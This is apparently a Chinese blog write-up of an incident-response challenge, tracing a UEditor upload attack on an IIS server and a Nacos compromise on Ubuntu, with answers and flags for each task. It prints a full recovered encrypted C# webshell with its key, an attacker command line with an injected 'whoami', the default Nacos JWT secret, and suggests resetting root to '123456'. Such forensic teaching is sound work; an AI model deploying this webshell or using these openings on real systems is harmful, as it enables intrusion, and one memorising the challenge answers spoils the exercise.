# 仿真DMZ环境应急响应-第二届Solar杯应急响应挑战赛


# 仿真DMZ环境应急响应-第二届Solar杯应急响应挑战赛

题目：

> 仿真DMZ环境应急响应  
> 描述：  
> 本次环境取自于实际应用中dmz隔离，仿真模拟了(生产车间/测试车间)环境，其中Windows server 2019系统为主要突破点，此机器搭建了一个对外开放的论坛，以便于让员工、客户等能够及时看到企业动态  
> 由于企业对于网络安全疏忽，未对生产车间及其它区域服务器做物理隔离，导致攻击者以Windows server 2019系统(DMZ1)为突破口攻击成功，获取终端权限后，攻击者未收手，而是进行内网漏洞扫描，拿下另一台Ubuntu(DMZ2)的机器，并做了权限维持操作，请根据题目描述依次排查进行学习  
> 注意：这些攻击都是在无安全设备的情况下进行的，所以在实战中遇到需根据日志及可能存在的漏洞去判断、测试、复盘等条件总结  
> 注意：web日志与系统日志有时区差别，这也仿真了在实战中一些开放配置不当导致的溯源难度加大问题  
> 机器1：Windows server 2019(双网卡)，账号密码：administrator/Solarsec521  
> 机器2：Ubuntu(单网卡)，账号密码：root/Solarsec521

## 机器1：Windows server 2019(双网卡)

### 任务1

题目：

> 任务名称：排查漏洞
>
> 任务分数：80.00
>
> 任务类型：静态Flag
>
> 根据开放服务排查审计日志，提交攻击者利用漏洞传入webshell的url，提交示例：flag{/flag/abc/kk\=abc}

思路：

登录虚拟机先定位到 windows 的日志，发现在 `C:\inetpub\logs\LogFiles\W3SVC1`​ 这个目录下，根据 `inetpub` 目录名能知道使用的中间件是 IIS 作为 Web 服务器。

 也可以进一步去确定一下，先查看一下端口占用情况

```python
netstat -nao
```



可以发现了开启了 80 端口，pid 是 4。确认 PID 4 对应什么

```python
tasklist /FI "PID eq 4"
```

- tasklist：列出当前系统所有进程，类似 Linux 的 `ps`
- FI：全称是 `Filter`，使用 tasklist 内置过滤器
- "PID eq 4"：过滤条件 `PID 等于 4`



显示是 `System`，说明是 HTTP.sys 或系统内核网络栈在监听。然后再查 HTTP.sys URL 绑定

> 显示是 `System`​：这说明 80 端口不是 nginx/httpd/java 直接监听，而是：`System(PID 4) / HTTP.sys`

```python
netsh http show servicestate
```

- 作用：查看当前 HTTP.sys 中注册的服务状态、URL 注册、请求队列、关联进程等信息。
- ```python
  netsh        Windows 网络配置/诊断工具
  http         操作 HTTP.sys 配置与状态
  show         查看
  servicestate 当前 HTTP 服务状态
  ```



这里也能发现一下关键信息：

- 日志目录: C:\inetpub\logs\LogFiles\W3SVC1
- HTTP://*:80/PLUGINS/UEDITOR/NET/

然后开始分析日志，先看一下 2025/12/23 这天的日志，可以发现一开始都是一些 404，并且观察日志能感觉是在做目录扫描的操作。



然后过滤一下 200 的状态码，可以发现前面主要是在访问后台的一个登入页面



然后看到这天最后这段时间使用了一个联合查询，并且访问后面一直在访问插件页面



接着继续看 `2025/12/24`​ 这天的日志，访问了 `/plugins/Ueditor/net/controller.ashx?action=catchimage`​ 这个路由，我们的工具已经识别到了 `网页木马 / 上传目录可执行脚本`



可以通过浏览器搜索一下这个路径，进一步确定攻击方法。能够发现这就是一个 UEditor v1.4.3.3 .net 版本任意文件上传，并且日志后面还有很多的 `.aspx` 文件被上传并访问，应该就是上传的木马了。

- ​`6390217228358522529477835.aspx`
- ​`6390217295972468102047086.aspx`
- ​`6390217325293187938071651.aspx`



到这里就能确定攻击者利用漏洞传入webshell的url，就是 /plugins/Ueditor/net/controller.ashx?action\=catchimage

flag：flag{/plugins/Ueditor/net/controller.ashx?action\=catchimage}

### 任务2

题目：

> 任务名称：Windows defender专项
>
> 任务分数：80.00
>
> 任务类型：静态Flag
>
> 提交Windows defender病毒和威胁防护中，拦截攻击者最早执行的命令，提交示例：flag{dir}

思路：

#### 方法一

第一反应一般都是去看事件日志，Windows Defender 常见相关事件：

|Event ID|含义|应急用途|
| ----------| -------------------| --------------------------|
|1116|检测到威胁|最先看，确认发现了什么|
|1117|已处理威胁|看是否隔离/删除/清理|
|1118|处理失败|需要人工继续处理|
|1119|严重处理失败|高危，说明清理严重失败|
|1121|ASR 阻止行为|查攻击命令/脚本被拦截|
|1122|ASR 审计行为|命中但未阻止|
|5000|实时保护开启|看防护恢复|
|5001|实时保护关闭|重点排查是否被攻击者关闭|
|5007|Defender 配置变更|查排除项/策略篡改|

Defender 日志位置如下

> 应用程序和服务日志 --> Microsoft -->  Windows --> Windows Defender  -->   Operational

物理 evtx 文件名一般是：

```
C:\Windows\System32\winevt\Logs\Microsoft-Windows-Windows Defender%4Operational.evtx
```

然后过滤一下事件 id 1116，再根据事件排序一下看第一条日志，能发现 Windows defende r病毒和威胁防护中，拦截攻击者最早执行的命令是 `whoami`



也可以使用 FullEventLogView 工具进行分析方便多了，启动高级选项过滤一下 1116 事件 id，在排序一下看第一条日志即可。



使用我自己的工具也能检测到就是要把 C:\Windows\System32\winevt\Logs 完整的目录拷贝出来，我的工具不支持在这个机器上运行。



#### 方法二

> 我比赛的时候用的这个方法，现在复盘的时候就看不到了，Defender 威胁历史应该被清理了

题目要求找到Windows Defender拦截的最早命令，需要查询Defender的威胁检测历史记录。

在Windows Server 2019上以管理员身份运行PowerShell，执行以下命令查询所有威胁检测记录：

```powershell
Get-MpThreatDetection | Sort-Object InitialDetectionTime | Format-List *
```

从输出结果中筛选包含 `CmdLine`​ 的记录，这些是被拦截的命令行操作。按 `InitialDetectionTime` 时间排序后，找到最早的命令执行记录：

```
InitialDetectionTime : 2025/12/24 11:24:12
Resources            : {CmdLine:_C:\Windows\System32\cmd.exe /c cd /d C:\inetpub\wwwroot\plugins\Ueditor\net\upload\image\20251224"&whoami}
```

可以看到攻击者在通过UEditor漏洞上传webshell后，第一时间执行了 `whoami` 命令来确认当前用户权限，这是渗透测试中获取shell后的常规操作。该命令被Windows Defender实时防护拦截。

flag：flag{whoami}

### 任务3

题目：

> 任务名称：Windows defender专项
>
> 任务分数：80.00
>
> 任务类型：静态Flag
>
> 提交Windows defender病毒和威胁防护中，杀软隔离的第一个webshell文件，提交文件名，提交示例：flag{shell.php}

思路：

#### 方法一

以及看 1116 相关的日志，往下看包含 `file:_`​ 的记录，这些是被Defender检测并隔离的恶意文件。然后确定到第一条即可。时间是：2025/12/24 11:24:15



#### 方法二

继续使用任务2中的PowerShell命令查询Windows Defender威胁检测记录：

```powershell
Get-MpThreatDetection | Sort-Object InitialDetectionTime | Format-List *
```

这次需要关注 `Resources`​ 字段中包含 `file:_`​ 的记录，这些是被Defender检测并隔离的恶意文件。同时注意 `CleaningActionID` 字段，值为2表示文件被隔离（Quarantine）。

从输出结果中筛选文件类型的检测记录，按 `InitialDetectionTime` 排序后，最早被隔离的webshell文件记录如下：

```
InitialDetectionTime : 2025/12/24 11:24:15
CleaningActionID     : 2
DomainUser           : IIS APPPOOL\DefaultAppPool
Resources            : {file:_C:\inetpub\wwwroot\plugins\Ueditor\net\upload\image\20251224\6390217215502412559088650.aspx}
ThreatStatusID       : 3
```

该文件位于UEditor的上传目录下，文件名是一串数字加.aspx后缀，这是UEditor漏洞上传webshell后自动生成的文件名格式。`DomainUser` 显示为IIS应用程序池账户，说明这是通过Web服务上传的恶意文件。

flag：flag{6390217215502412559088650.aspx}

### 任务4

题目：

> 任务名称：日志专项
>
> 任务分数：80.00
>
> 任务类型：静态Flag
>
> 审计web日志，攻击者在多次上传webshell后，最终远控使用的webshell文件是哪个，提交文件名，提交示例：flag{shell.php}

思路：

分析IIS日志文件 `u_ex251224.log`，需要找出攻击者最终用于远程控制的webshell。判断依据是：该文件被持续、频繁地POST访问，且返回状态码为200（执行成功）。

从日志中可以看到攻击者通过UEditor漏洞上传了多个aspx文件：

第一个webshell `6390217215502412559088650.aspx`​ 在 `11:23:22`​ 首次被访问时返回500错误，随后 `11:24:15` 被Windows Defender检测并隔离，之后访问返回404。



第二个webshell `6390217261498889944132731.aspx`​ 在 `11:30:58` 被访问，同样返回500错误，说明执行失败。



第三个webshell `6390217295972468102047086.aspx`​ 在 `11:36:29` 被访问，返回200成功，但访问次数较少。



第四个 webshell `6390217325293187938071651.aspx`​ 从 `11:41:18`​ 开始被访问，返回 200 成功。关键特征是这个文件在后续时间段内被持续大量POST访问，从 `11:41:18`​ 一直持续到`13:31:46`，期间有数十次POST请求且全部返回200。这种持续的POST交互模式是典型的webshell远控特征，攻击者通过POST请求向webshell发送命令并获取执行结果。



flag：flag{6390217325293187938071651.aspx}

### 任务5

题目：

> 任务名称：木马专项
>
> 任务分数：80.00
>
> 任务类型：静态Flag
>
> 提交攻击者最终使用的webshell中key和pass，提交示例：flag{key&pass}

思路：

那就直接去分析一下这个文件即可，根据任务 4 知道最终使用的 webshell 是 6390217325293187938071651.aspx



```aspx
<%@ Page Language="C#" %>
<%
try
{
    string key = "3c6e0b8a9c15224a";
    string pass = "solar";

    string md5 = System.BitConverter.ToString(
        new System.Security.Cryptography.MD5CryptoServiceProvider().ComputeHash(
            System.Text.Encoding.Default.GetBytes(pass + key)
        )
    ).Replace("-", "");

    byte[] data = System.Convert.FromBase64String(Context.Request[pass]);

    data = new System.Security.Cryptography.RijndaelManaged()
        .CreateDecryptor(
            System.Text.Encoding.Default.GetBytes(key),
            System.Text.Encoding.Default.GetBytes(key)
        )
        .TransformFinalBlock(data, 0, data.Length);

    if (Context.Application["payload"] == null)
    {
        Context.Application["payload"] = (System.Reflection.Assembly)
            typeof(System.Reflection.Assembly)
                .GetMethod("Load", new System.Type[] { typeof(byte[]) })
                .Invoke(null, new object[] { data });
    }
    else
    {
        System.IO.MemoryStream outStream = new System.IO.MemoryStream();

        object o = ((System.Reflection.Assembly)Context.Application["payload"])
            .CreateInstance("LY");

        o.Equals(outStream);
        o.Equals(data);
        o.ToString();

        byte[] r = outStream.ToArray();

        Context.Response.Write(md5.Substring(0, 16));
        Context.Response.Write(
            System.Convert.ToBase64String(
                new System.Security.Cryptography.RijndaelManaged()
                    .CreateEncryptor(
                        System.Text.Encoding.Default.GetBytes(key),
                        System.Text.Encoding.Default.GetBytes(key)
                    )
                    .TransformFinalBlock(r, 0, r.Length)
            )
        );
        Context.Response.Write(md5.Substring(16));
    }
}
catch (System.Exception)
{
}
%>

```



非常像 冰蝎/哥斯拉类 C# 加密内存 WebShell

使用的webshell中key和pass。

- pass 就是攻击者和客户端通信时，请求参数名。
- key 就是 WebShell 通信加解密的密钥，主要用来解密数据的。

如果直接提交 `flag{3c6e0b8a9c15224a&solar}`​，会发现错了说明要提交 key 的明文形式。知道一般哥斯拉的 key 就是明文的 md5 前 32 位。使用 cmd 可以解出这个 md5 但是要钱，可以使用 [CrackStation - Online Password Hash Cracking - MD5, SHA1, Linux, Rainbow Tables, etc.](https://crackstation.net/) 这个工具解出来。发现 `3c6e0b8a9c15224a` 的明文就是 key，所以答案就是 flag{key&solar}



flag：flag{key&solar}

### 任务6

题目：

> 任务名称：远控专项
>
> 任务分数：80.00
>
> 任务类型：静态Flag
>
> 审计系统日志，提交攻击者远控后关闭Windows defender的时间，可使用桌面\\工具\\FullEventLogView辅助审计，提交示例：flag{2025/1/1 12:01:01}

思路：

根据任务二中我们收集的事件 id 知道，筛选事件ID 5001（实时保护被禁用）。时间事 `2025/12/24 12:24:07`





flag：flag{2025/12/24 12:24:07}

### 任务7

题目：

> 任务名称：远控专项
>
> 任务分数：80.00
>
> 任务类型：静态Flag
>
> 审计系统日志，提交攻击者创建的用户名及远程登录IP及时间，提交示例：flag{user&1.1.1.1&2025/1/1 12:01:01}

思路：

#### 快速分析

根据任务四知道了远控使用的webshell文件，然后确定了攻击者的一个 ip 192.168.70.3。然后分析windows 事件，可以发现其实只有一个 ip



然后我们过滤事件 id 4624，找到一个出现源 ip 为 192.168.70.3 的事件。根据要求拼接一下即可。



#### 具体分析

一般攻击者登录进来基本都是创建一个**隐藏账户**然后再进行登入，所以这里可以先通过过滤事件 id 4720，可以发现 2025/12/24 13:26:43 创建了一个账户 `$system`

> 这不是隐藏账户，因为隐藏账户的 \$ 在右侧，比如 `system$`



接下来查询远程登录事件（事件ID 4624），筛选登录类型为10（远程桌面）或3（网络登录）的记录：

> 这里搜索做的有问题，后续优化一下

**注意：**

> 这里题目问的是**攻击者远程登录**，所以可以不用区分登录类型（LogonType），但是有些题目会问你**远程桌面登入**。这个时候就要区分一下 LogonType 为 10 了。（我记得我写过这种题目）



flag：flag{$system&192.168.70.3&2025/12/24 13:32:13}

### 任务8

题目：

> 任务名称：恶意文件排查
>
> 任务分数：80.00
>
> 任务类型：静态Flag
>
> 攻击者为了进行内网渗透，上传了内网扫描及其它恶意文件，提交文件的所在路径，提交示例：flag{C:\\Windows\\System32}

思路：

攻击者在获取系统权限并创建后门账户后，通常会上传内网渗透工具进行横向移动。需要查找攻击时间段内新创建的可执行文件。

使用PowerShell查找攻击发生后（2025年12月24日）新创建的exe文件：

```powershell
Get-ChildItem -Path C:\ -Recurse -Include *.exe -ErrorAction SilentlyContinue | Where-Object {$_.CreationTime -gt "2025-12-24"} | Select-Object FullName, CreationTime
```

查询结果显示：

```
FullName                                                      CreationTime       
--------                                                      ------------       
C:\Users\Administrator\Downloads\frpc.exe                     2025/12/24 14:02:44
C:\Users\Administrator\Downloads\fscan.exe                    2025/12/24 13:43:07
```

在 `C:\Users\Administrator\Downloads` 目录下发现两个典型的内网渗透工具：

- ​`fscan.exe`：内网综合扫描工具，可以进行端口扫描、服务识别、漏洞探测等
- ​`frpc.exe`：frp内网穿透客户端，用于建立反向代理隧道，将内网服务暴露到外网

这两个工具的创建时间都在攻击者通过RDP登录（**13:32:13**）之后，说明是攻击者远程登录后上传的内网渗透工具包。



flag：flag{C:\Users\Administrator\Downloads}

### 任务9

题目：

> 任务名称：安全加固
>
> 任务分数：100.00
>
> 任务类型：静态Flag
>
> 清除攻击者用于权限维持添加的用户，清除完毕后前往C:\\Users\\Administrator\\Desktop\\flag\\1.txt读取flag

思路：

思路：

根据任务7的分析，攻击者在 `2025/12/24 13:26:43`​ 创建了一个名为 `$system` 的后门用户。

使用以下命令删除该后门用户：

```powershell
net user "$system" /delete
```

或者使用PowerShell命令：

```powershell
Remove-LocalUser -Name '$system'
```

删除成功后，读取flag文件：

```powershell
type C:\Users\Administrator\Desktop\flag\1.txt
```



也可以手动删除：

打开：

```
lusrmgr.msc
```

路径：

```
本地用户和组 → 用户 → 右键 $system → 删除
```



如果打不开 `lusrmgr.msc`，就打开：

```
compmgmt.msc
```

路径：

```
系统工具 → 本地用户和组 → 用户
```



flag：flag{d47cab4549e08c5227d2afd5d4e1a051}

### 任务10

题目：

> 任务名称：安全加固
>
> 任务分数：100.00
>
> 任务类型：静态Flag
>
> 清除攻击者上传的所有webshell，清除完毕后前往C:\\Users\\Administrator\\Desktop\\flag\\2.txt读取flag

思路：

根据之前的日志分析，攻击者通过UEditor漏洞上传的webshell文件都位于 `C:\inetpub\wwwroot\plugins\Ueditor\net\upload\image\20251224\` 目录下。

首先查看该目录下的所有aspx文件：

```powershell
dir "C:\inetpub\wwwroot\plugins\Ueditor\net\upload\image\20251224\*.aspx"
```

发现4个webshell文件：

- ​`6390217228358522529477835.aspx`（444字节）
- ​`6390217295972468102047086.aspx`（4481字节）
- ​`6390217325293187938071651.aspx`（1407字节）- 攻击者最终使用的冰蝎 webshell
- ​`6390217358631910697152957.aspx`（0字节）

使用以下命令删除所有webshell（也可以手动去删除）：

```powershell
Remove-Item "C:\inetpub\wwwroot\plugins\Ueditor\net\upload\image\20251224\*.aspx" -Force
```

删除完成后读取 flag：

```powershell
type C:\Users\Administrator\Desktop\flag\2.txt
```



flag：flag{31527b4001257a29c68c357a15376e59}

### 任务11

题目：

> 任务名称：安全加固
>
> 任务分数：100.00
>
> 任务类型：静态Flag
>
> 清除攻击者上传的所有恶意文件，清除完毕后前往C:\\Users\\Administrator\\Desktop\\flag\\3.txt读取flag

思路：

根据任务8的分析，攻击者通过RDP远程登录后，在 `C:\Users\Administrator\Downloads` 目录下上传了内网渗透工具。

查看该目录下的文件：

```powershell
dir C:\Users\Administrator\Downloads
```

发现4个攻击者留下的恶意文件：

- ​`fscan.exe`：内网综合扫描工具
- ​`frpc.exe`：frp内网穿透客户端
- ​`frpc.toml`：frp客户端配置文件，包含攻击者的代理服务器信息
- ​`result.txt`：fscan扫描内网后生成的结果文件

需要将这4个文件全部删除：

```powershell
Remove-Item "C:\Users\Administrator\Downloads\fscan.exe" -Force
Remove-Item "C:\Users\Administrator\Downloads\frpc.exe" -Force
Remove-Item "C:\Users\Administrator\Downloads\frpc.toml" -Force
Remove-Item "C:\Users\Administrator\Downloads\result.txt" -Force
```

删除完成后读取flag：

```powershell
type C:\Users\Administrator\Desktop\flag\3.txt
```



flag：flag{42a996202210e8572eebae2968f393db}

## 机器2：Ubuntu(单网卡)

### 任务12

题目：

> 任务名称：内网渗透排查
>
> 任务分数：80.00
>
> 任务类型：静态Flag
>
> 开始排查Ubuntu(DMZ2)环境，通过前面排查的内网扫描结果以及攻击者上传的工具，攻击者对于内网机器Ubuntu(DMZ2)进行了漏洞利用，根据相关线索本地访问相关端口，攻击者为了权限维持，后期进行获取更多信息，提交攻击者在web端新增的账号，提交示例：flag{user}

思路：

先查看一下查看当前运行的服务和开放端口：

```python
root@solar:~# netstat -tlnp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      847/systemd-resolve 
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      898/sshd: /usr/sbin 
tcp6       0      0 :::8848                 :::*                    LISTEN      964/java            
tcp6       0      0 :::22                   :::*                    LISTEN      898/sshd: /usr/sbin 
root@solar:~# 
```

发现8848端口运行着Java进程，进一步查看进程详情发现是Nacos服务。Nacos是阿里巴巴开源的配置中心和服务发现平台，在8848端口提供Web管理界面。http://ip:8848/nacos/#/login

```python
root@solar:~# ps -ef | grep 964
root         964       1  0 04:42 ?        00:01:13 /usr/lib/jvm/java-8-openjdk-amd64/bin/java -Xms512m -Xmx512m -Xmn256m -Dnacos.standalone=true -Dnacos.member.list= -Djava.ext.dirs=/usr/lib/jvm/java-8-openjdk-amd64/jre/lib/ext:/usr/lib/jvm/java-8-openjdk-amd64/lib/ext -Xloggc:/usr/local/nacos/logs/nacos_gc.log -verbose:gc -XX:+PrintGCDetails -XX:+PrintGCDateStamps -XX:+PrintGCTimeStamps -XX:+UseGCLogFileRotation -XX:NumberOfGCLogFiles=10 -XX:GCLogFileSize=100M -Dloader.path=/usr/local/nacos/plugins/health,/usr/local/nacos/plugins/cmdb -Dnacos.home=/usr/local/nacos -jar /usr/local/nacos/target/nacos-server.jar --spring.config.additional-location=file:/usr/local/nacos/conf/ --logging.config=/usr/local/nacos/conf/nacos-logback.xml --server.max-http-header-size=524288 nacos.nacos
root        8066    4461  0 06:58 pts/0    00:00:00 grep --color=auto 964
root@solar:~# 
```

查看Nacos的安装目录和配置：

```bash
ls -la /usr/local/nacos/
cat /usr/local/nacos/conf/application.properties
```



从配置文件中发现Nacos开启了认证（nacos.core.auth.enabled=true），但使用了默认的JWT密钥（SecretKey012345678901234567890123456789012345678901234567890123456789），这是一个已知的安全漏洞，攻击者可以利用默认密钥伪造JWT token绕过认证。



然后打包一下 nacos 的日志，拷贝到本地分析一下

```bash
tar -czf /tmp/nacos-logs-$(date +%Y%m%d-%H%M%S).tar.gz -C /usr/local/nacos logs
```

主要分析一下 access_1og.2025-12-24.log 这天的日志，因为通过任务 8 我们知道 fsacn 大概在这个时间段上传的 2025/12/24 13:43:07，观察一下这个时间后的就行。

攻击者 IP 192.168.59.3 在 2025/12/24 13:48:20 通过 fscan 进行漏洞扫描，期间临时创建了测试用户 hsdaspmgruusmplu 并随后删除。更重要的是在 06:10:28 攻击者使用nacos默认账号登录成功，然后在 06:12:01 通过 POST 请求创建了新用户。



用 Derby 官方 `ij` 工具直连数据库目录，查看数据库中用户的数据，这里先安装一下工具

```bash
apt install derby-tools
apt install connect-proxy
```

先停 Nacos，再用 ij 连接。

```bash
root@solar:~# /usr/local/nacos/bin/shutdown.sh
The nacosServer(996) is running...
Send shutdown request to nacosServer(996) OK
```

然后使用 `ij` 连接数据库

```bash
root@solar:~# ij
ij version 10.14
ij> connect 'jdbc:derby:/usr/local/nacos/data/derby-data';
ij> show tables;
TABLE_SCHEM         |TABLE_NAME                    |REMARKS             
------------------------------------------------------------------------
SYS                 |SYSALIASES                    |                    
SYS                 |SYSCHECKS                     |                    
SYS                 |SYSCOLPERMS                   |                    
SYS                 |SYSCOLUMNS                    |                    
SYS                 |SYSCONGLOMERATES              |                    
SYS                 |SYSCONSTRAINTS                |                    
SYS                 |SYSDEPENDS                    |   
```

输出显示用户表中存在二个用户：nacos（默认管理员）、system（攻击者新增的持久化账号）。

```bash
ij> select * from NACOS.USERS;
USERNAME                                          |PASSWORD                                                                                                                        |ENAB&
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
nacos                                             |$2a$10$EuWPZHzz32dJN7jexM34MOeYirDdFAZm2kuWj7VEOJhhZkDrxfvUu                                                                    |true 
system                                            |$2a$10$LIo3X6F7Aumyyfd/4CVo3uTjI4/57KzMcLIqXZm5wAq4RLlOnY7cq                                                                    |true 

2 rows selected
```



还可以直接 strings 看到用户名，直接查看Nacos的Derby内嵌数据库文件：

```bash
strings /usr/local/nacos/data/derby-data/seg0/c751.dat
```

这里连删除的用户都能看到：hsdaspmgruusmplu（扫描时临时创建已删除）



攻击者利用Nacos默认密钥漏洞获取管理权限后，创建了名为system的后门账号，这个账号名伪装成系统账号不易被发现，是典型的权限维持手法。

flag：flag{system}

### 任务13

> 任务名称：内网渗透排查
>
> 任务分数：80.00
>
> 任务类型：静态Flag
>
> 攻击者在web端获取到了敏感信息后获取到了终端权限，写入了隐藏用户，提交其用户名，提交示例：flag{user}

思路：

在Linux系统中排查隐藏用户，首先检查/etc/passwd文件中具有登录shell的用户：

```bash
root@solar:~# cat /etc/passwd | grep -v nologin | grep -v false
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
sys-update:x:0:0::/var/tmp/.sys:/bin/bash
solar:x:1000:1000:Solarsec:/home/solar:/bin/bash
root@solar:~# 
```

> ​`nologin`​ 和 `false` 都常被用作 Linux 用户的登录 shell，意思是：这个账号不允许正常交互登录系统。
>
> ​`-v` 表示反向匹配，也就是“不包含”。

输出中发现一个可疑用户：`sys-update0:0::/var/tmp/.sys:/bin/bash`​。首先它的家目录设置为 `/var/tmp/.sys` 就很可疑，它的UID和GID都是0，这意味着该用户拥有与root完全相同的权限。

进一步验证UID为0的用户：

```bash
root@solar:~# awk -F: '$3==0 {print $1}' /etc/passwd
root
sys-update
root@solar:~# 
```

结果显示只有root和sys-update两个用户的UID为0，确认sys-update是攻击者创建的特权后门账号。

查看登录历史记录进一步确认（攻击者 ip 都能对上）：

```bash
last
```



flag：flag{sys-update}

### 任务14 

> 任务名称：安全加固
>
> 任务分数：100.00
>
> 任务类型：静态Flag
>
> 清除攻击者在web端新增的用户名后，前往/var/flag/1文件中读取flag并提交

思路：

直接使用默认账号密码登入 http://ip:8848/nacos/，然后把 任务12 排查出的用户删了即可





flag：flag{ad31ea22e324ee6effd454decf7477c9}

### 任务15

> 任务名称：安全加固
>
> 任务分数：100.00
>
> 任务类型：静态Flag
>
> 清除攻击者在服务器新增的用户名所有信息，前往/var/flag/2文件中读取flag并提交

思路：

根据任务13的分析，攻击者在Ubuntu系统中创建了名为sys-update的隐藏后门用户。删除这个即可

首先尝试使用标准的userdel命令删除用户：

```bash
root@solar:~# userdel -r sys-update
userdel: user sys-update is currently used by process 1
```

报错原因：

- 这个错误的原因是攻击者创建的sys-update用户UID被设置为0，与root用户相同。
- PID为1的进程是系统初始化进程init/systemd，它以UID 0运行。由于sys-update的UID也是0，系统误认为该用户正在被进程1使用，因此拒绝删除
- 这也是攻击者将UID设为0的另一个好处——除了获得root权限外，还能在一定程度上防止被简单删除。

Linux用户信息主要存储在/etc/passwd和/etc/shadow两个文件中，使用sed命令直接删除对应的行：

```bash
sed -i '/^sys-update:/d' /etc/passwd
sed -i '/^sys-update:/d' /etc/shadow
```

- sed的-i参数表示直接修改文件，正则表达式/^sys-update:/d匹配以sys-update:开头的行并删除。

接下来删除该用户的家目录，攻击者将其设置为/var/tmp/.sys这个隐藏目录：

```bash
rm -rf /var/tmp/.sys
```

最后验证清除是否成功，可以 cat 查看一下也许：

```bash
grep sys-update /etc/passwd
grep sys-update /etc/shadow
```

等一会直接读取 flag2

```bash
root@solar:~# cat /var/flag/2
flag{85fdb55f08925b3ae7149e869124f2c4}root@solar:~# 
```

flag：flag{85fdb55f08925b3ae7149e869124f2c4}

### 任务16

题目：

> 任务名称：安全加固
>
> 任务分数：100.00
>
> 任务类型：静态Flag
>
> 当前web端存在漏洞，先停止此web服务进程后，前往/var/flag/3文件中读取flag并提交

思路：

上面在查数据的时候就关过一次了，使用Nacos自带的关闭脚本优雅停止服务：

```bash
/usr/local/nacos/bin/shutdown.sh
```

也可以使用 `kill -9` 强制终止进程：

```bash
kill -9 $(ps aux | grep 'nacos' | grep -v grep | awk '{print $2}')
```

- ​`ps aux`：列出当前系统所有进程。
- ​`grep 'nacos'`​：筛选出包含 `nacos` 的进程行。
- ​`grep -v grep`​：排除 `grep nacos` 自己这条进程。
- ​`awk '{print $2}'`：取出第二列，也就是 PID。
- ​`$(...)`​：命令替换，把前面筛出来的 PID 作为参数传给 `kill`。
- ​`kill -9 PID`

最后读取 flag3

```bash
root@solar:~# cat /var/flag/3
flag{163e32607debcc6091e993929afe8064}root@solar:~# 
```

flag：flag{163e32607debcc6091e993929afe8064}

### 任务17

> 任务名称：安全加固
>
> 任务分数：100.00
>
> 任务类型：静态Flag
>
> 攻击者通过web漏洞拿到了root账号密码，请修改密码后，前往/var/flag/4文件中读取flag并提交

思路：

修改root密码为 123456

```python
passwd root
```

然后输入新密码两次（比如设置为 123456）。

或者一行命令：

```python
echo "root:123456" | chpasswd
```

最后读取一下 flag 即可

```bash
root@solar:~# passwd root
New password: 
Retype new password: 
passwd: password updated successfully
root@solar:~# cat /var/flag/4
flag{2d1848c8560becac27d30a5d4daf6da3}root@solar:~# 
```



flag：flag{2d1848c8560becac27d30a5d4daf6da3}

## 一些疑问，问题？

### 什么是 HTTP.sys？

HTTP.sys 是 Windows 内核态 HTTP 监听驱动。

简单说：

> 普通程序不直接 bind 80 端口  
> 而是向 HTTP.sys 注册一个 URL  
> 由 HTTP.sys 统一监听 80/443  
> 再把请求分发给对应服务

所以你看到：

> 0.0.0.0:80 LISTENING PID 4

通常说明：

> 80 端口被 HTTP.sys/System 占用

因为 PID 4 是 System。


---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/%E4%BB%BF%E7%9C%9Fdmz%E7%8E%AF%E5%A2%83%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-%E7%AC%AC%E4%BA%8C%E5%B1%8Asolar%E6%9D%AF%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94%E6%8C%91%E6%88%98%E8%B5%9B/  

